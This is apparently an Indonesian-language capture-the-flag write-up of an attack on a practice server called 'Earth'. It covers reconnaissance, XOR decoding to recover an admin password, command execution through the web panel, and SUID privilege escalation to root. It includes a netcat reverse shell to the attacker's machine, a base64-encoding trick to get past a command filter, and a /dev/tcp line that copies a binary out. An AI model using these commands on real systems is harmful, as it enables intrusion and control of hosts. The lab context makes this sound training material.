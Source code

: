 # Laporan Serangan Server Earth

Ini adalah hasil serangan yang telah dilakukan pada server Earth untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : `ip a` atau `ifconfig` 
- nmap: `nmap -sP <network_id>/<prefix>`
- uji koneksi, kali linux dan server earth: `ping <ip_server>`

## Scan Port Server dengan NMAP
- nmap : `nmap -sC -sV -v -T4 <ip_server>`

**Port** yang terbuka dari server adalah :
- ssh (22)
- http (80)
- https (443)

## Setting Hosts
- buka ip_server pada browser
- jika error (400), maka setting hosts
```
mousepad /etc/hosts
```
- paling bawah tambahkan ip_server dan DNS (sesuai dengan hasil scan nmap)
```
<ip_server> earth.local terratest.earth.local
```
- buka di browser
	- http : `http://earth.local`
	- https : `https://terratest.earth.local`

## Scan Link Yang Ada pada Web
gunakan gobuster untuk scan link
- gobuster http :
```
gobuster dir -u http://earth.local -w /usr/share/wordlists/dirb/common.txt
```
- access admin : `http://earth.local/admin`
- dan login
- access sub domain : `https://terratest.earth.local`
- gobuster https :
```
gobuster dir -u https://terratest.earth.local -k -w /usr/share/wordlists/dirb/common.txt
```
- access robot : `https://terratest.earth.local/robots.txt`
- access testing : `https://terratest.earth.local/testingnotes.*`
- karena terdapat * maka bisa dicoba-coba, contoh `.html`, `.php`, `.js`, `.txt`
- access testing kembali : `https://terratest.earth.local/testingnotes.txt`
- user : `terra`

## Temukan Informasi Dari Hasil Enkripsi Halaman Index HTTP
gunakan CyberChef : `https://gchq.github.io/CyberChef/`
- setting Recipe
	- atur `From Hex`, Delimiter : `Auto`
	- atur `XOR`, Key : `UTF8`
	- access : `https://terratest.earth.local/testdata.txt`
	- copy semua text, dan paste pada key xor

- informasi hasil enkripsi
	- copy enkripsi pada `Input`
	- dan tekan `Bake`
	- ulangi untuk semua enkripsi
	- temukan kalimat berulang 
	`earthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humans`
	- password : `earthclimatechangebad4humans`
- login : `http://earth.local/admin`
- gunakan user dan password yang ditemukan

## Exploit Server
- jalankan perintah terminal
	- `whoami`
	- `ls /`
	- `ls /var/`
	- `ls /var/earth_web/`
	- flag : `cat /var/earth_web/user_flag.txt`
- setting netcat
	- form CLI server : `nc -e /bin/bash <ip_kali> 4444`
	- terminal client : `nc -lvnp 4444`
	- jika perintah netcat server error maka perlu di enkripsi terlebih dahulu
	- enkripsi : `echo 'nc -e /bin/bash <ip_kali> 4444' | base64`
	- output : `berupa string hasil generate enkripsi`
	- form CLI server : `echo '<string_generate>' | base64 -d | bash`

## Privilege Escalation
- mode terminal
	- python
	```
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	```
	```
	export TERM=xterm
	```
- privilege
	- cari reset root
	```
	find / -perm -u=s 2>/dev/null
	```
	- jalankan reset root
	```
	reset_root
	```
	- jika failed maka, menggunakan netcat
- tool ltrace
	- cek : `ltrace`
	- jika belum, maka install 
	```
	sudo apt install ltrace
	```
- netcat
	- terminal user : `nc -lvnp 2020 > reset_root`
	- terminal server : `cat /usr/bin/reset_root > /dev/tcp/<ip_kali>/2020`
	- pada terminal user
		- ubah mode : `chmod +x reset_root`
		- trace : `ltrace ./reset_root`
- buat file
	- dari hasil ltrace buat file pada terminal server
	- file 1 : `touch /dev/shm/<sesuai_ltrace>`
	- file 2 : `touch /dev/shm/<sesuai_ltrace>`
	- file 1 : `touch /tmp/<sesuai_ltrace>`
	- reset_root kembali : `reset_root`
- temukan flag
	- pindah user root : `su root`
	- password : `Earth`
	- `cd /root`
	- `cat root_flag.txt`
